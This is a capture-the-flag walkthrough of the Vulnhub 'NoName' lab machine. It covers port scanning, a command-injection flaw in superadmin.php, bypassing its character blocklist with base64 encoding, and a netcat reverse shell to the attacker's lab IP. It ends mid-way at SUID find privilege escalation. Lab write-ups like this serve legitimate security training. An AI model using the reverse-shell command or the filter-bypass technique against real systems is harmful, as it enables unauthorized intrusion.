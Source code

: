# NoName

This machine crashes alot so frustrating Machine →

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NoName/Untitled.png)

```bash
IP : 10.0.2.57
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.57     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 15:54 IST
Nmap scan report for 10.0.2.57
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:7E:D4:B7 (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%201.png)

Now Entering any value gives no results so lets see into the directory listing files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%202.png)

lets see the admin directory →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%203.png)

I think paraphrase are used in as password from extracting data from image or file so lets see what I can get from this →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%204.png)

as I got a file named as `superadmin.php` →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%205.png)

Now I see it is pinging the input IP address so lets bypass it and make it into a command Injection →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%206.png)

Now I can execute certain commands so lets see the source code of this superadmin.php file so that  we can debugg this page →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%207.png)

After seeing this code I have to bypass (";","&&","/","bin","&"," &&","ls","nc","dir","pwd") these attributes to gain an access →

So lets use base64 as encoding and decoding system and then executing it .

Lets try →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ echo "nc.traditional -e /bin/bash 10.0.2.15 4444" | base64
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg==
```

![Untitled](/Vulnhub-Files/img/NoName/Untitled%208.png)

In response to that I got a local privilege escalation ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%209.png)

Lets enumerate further →

```bash
www-data@haclabs:/home$ ls
ls
haclabs  yash
www-data@haclabs:/home$ cd yash
cd yash
www-data@haclabs:/home/yash$ ls -al
ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Feb 15  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash   13 Feb 15  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
www-data@haclabs:/home/yash$ cat flag1.txt
cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
www-data@haclabs:/home/yash$
```

Now I also got flag2.txt into haclabs directory →

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt	
cat flag2.txt
I am flag2 

	   ---------------               ----------------
                         
                     
                               --------
www-data@haclabs:/home/haclabs$
```

Now lets see the SUIDs files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%2010.png)

I got a command of `find` that have a permission to get use to root lets try →